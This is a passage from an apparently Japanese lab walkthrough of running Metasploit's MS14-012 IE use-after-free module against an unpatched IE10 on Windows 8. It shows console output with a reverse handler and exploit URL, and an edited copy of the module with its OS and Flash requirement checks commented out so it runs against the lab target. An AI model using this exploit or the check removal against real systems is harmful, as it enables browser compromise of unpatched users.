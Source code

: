 今回犠牲になっていただく IE10 on Windows 8 x64 の環境。IE の更新バージョンが KB2718695 となっていることから分かるように、IE の更新プログラムは適用していません。

 
![]({{site.assets_url}}2014-08-12-image23.png)

 
[http://10.10.10.80:8080/snowman](http://10.10.10.80:8080/snowman) を開きます。すると、"Exploit requirement(s) not met" とかいうメッセージが出ます。要件を満たしていないようです。なんて attacker-friendly な攻撃用スクリプト・・。

 
```
msf exploit(ms14_012_cmarkup_uaf) > run 
[*] Exploit running as background job.

[*] Started reverse handler on 10.10.10.80:4455 
msf exploit(ms14_012_cmarkup_uaf) > [*] Using URL: http://10.10.10.80:8080/snowman 
[*] Server started. 
[*] 10.10.10.96      ms14_012_cmarkup_uaf - Request: /snowman 
[*] 10.10.10.96      ms14_012_cmarkup_uaf - Gathering target information. 
[*] 10.10.10.96      ms14_012_cmarkup_uaf - Sending response HTML. 
[*] 10.10.10.96      ms14_012_cmarkup_uaf - Request: /snowman/LHfaA/ 
[*] 10.10.10.96      ms14_012_cmarkup_uaf - Request: /snowman/PVOsGk/ 
[!] 10.10.10.96      ms14_012_cmarkup_uaf - Exploit requirement(s) not met: os_flavor, flash. For more info: http://r-7.co/PVbcgx
```
 
このモジュールのコードは /usr/share/metasploit-framework/modules/exploits/windows/browser/ms14_012_cmarkup_uaf.rb にあるので、それを確認すると、以下のような前提条件の定義らしき部分が見つかります。赤字の部分が怒られた条件です。確かに、OS は Windows 8 だし。

 
```
'BrowserRequirements' => 
  { 
    :source      => /script|headers/i, 
    :os_name     => Msf::OperatingSystems::WINDOWS, 
    :os_flavor   => Msf::OperatingSystems::WindowsVersions::SEVEN, 
    :ua_name     => Msf::HttpClients::IE, 
    :ua_ver      => '10.0', 
    :mshtml_build => lambda { |ver| ver.to_i < 16843 }, 
    :flash       => /^1[23]\./ 
  }, 
```
 
Flash のバージョンを確認 (ツール &gt; アドオンの管理) すると、11 でした。

 
![]({{site.assets_url}}2014-08-12-image24.png)

 
オリジナルのモジュールを変更したくはないので、適当に名前を変えて /root/.msf4/modules/exploits/windows/browser/ にコピーします。ms14_012_cmarkup_uaf_noreq.rb という名前にしました。んで編集。といっても怒られたところをコメントアウトしただけです。Ruby も覚えないトナー。

 
```
      'BrowserRequirements' => 
        { 
          :source      => /script|headers/i, 
          :os_name     => Msf::OperatingSystems::WINDOWS, 
#          :os_flavor   => Msf::OperatingSystems::WindowsVersions::SEVEN, 
          :ua_name     => Msf::HttpClients::IE, 
          :ua_ver      => '10.0', 
          :mshtml_build => lambda { |ver| ver.to_i < 16843 }, 
#          :flash       => /^1[23]\./ 
        },
```
 